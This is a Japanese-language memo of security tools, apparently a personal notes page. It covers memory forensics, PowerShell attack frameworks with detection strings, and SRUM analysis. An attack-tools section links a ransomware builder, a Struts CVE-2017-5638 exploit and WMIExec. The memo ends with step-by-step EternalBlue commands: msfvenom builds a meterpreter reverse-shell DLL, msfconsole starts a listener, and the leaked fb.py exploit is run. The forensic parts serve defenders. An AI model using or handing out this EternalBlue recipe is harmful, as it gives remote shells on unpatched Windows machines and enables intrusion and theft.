 ■NetScan
SoftPerfect Network Scanner
nmap

■メモリ
kani vola
volatility
Bulk Extractor
rekall

■Powershell
・empire powershell
https://github.com/EmpireProject/Empire
⇒Empireで生成した stager dllなら、「PowerShellRunner」「wC.DoWNLOaDSTring」とか文字列が入ってる可能性あり。
⇒metasploitならWriteProcessMemory AND rundll32.exe
・power sploit
https://github.com/mattifestation/PowerSploit
・PowerShellでイベントログをtail -f のように追跡する
jeffpatton1971/Get-WinEventTail.ps1
https://gist.github.com/jeffpatton1971/a908cac57489e6ca59a6

■SRUM
Windows8から搭載された機能。アプリケーション毎のリソースが確認できる。
srum-dump
https://github.com/MarkBaggett/srum-dump

■pagefilesys
https://github.com/matonis/page_brute

■サンドボックス
exe+dll+本体などのファイルを1つのexeにまとめることができる。
http://74.cz/en/make-sfx/index.php

■攻撃ツールの一例
・ペンテストに使えるものたち。
https://github.com/danielmiessler/SecLists
・簡単にランサムウェアを作成できる
https://github.com/goliate/hidden-tear
・Struts S-045
https://github.com/nixawk/labs/blob/master/CVE-2017-5638/exploit-urllib2.py
・SkeletonKey
https://github.com/Neo23x0/SkeletonKeyScanner
SkeletonKeyとは？
ドメインコントローラ上のメモリパッチに潜んで認証をバイパスしてハッキングするマルウェア
・WMIExec
リモートホストでスクリプトを実行する
https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

・metasploitでEternalblueを使用した例
https://github.com/rapid7/metasploit-framework/archive/4.14.14.zip
# Eternalblue > DoublePulser > RunDLL する時に読ませる reverse shell の　DLLを作成
$ cd metasploit-xxx
$ ./msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=【ローカルIP】 -o /tmp/r2d2.dll
作ったDLLを、fb.pyを実行するマシンのどこぞかに配置しておく。c:\temp\とか
Callbackを受け取る準備をする。
$ ./msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 【ローカルIP】; exploit'
EternalBlueの実行
https://github.com/misterch0c/shadowbroker/blob/master/windows/fb.py
python26\python.exe fb.py
use eternalblue して、targetIp とか 適当に指定。
Execute Plugins (yes) 的なことやると、Succeed になるはず。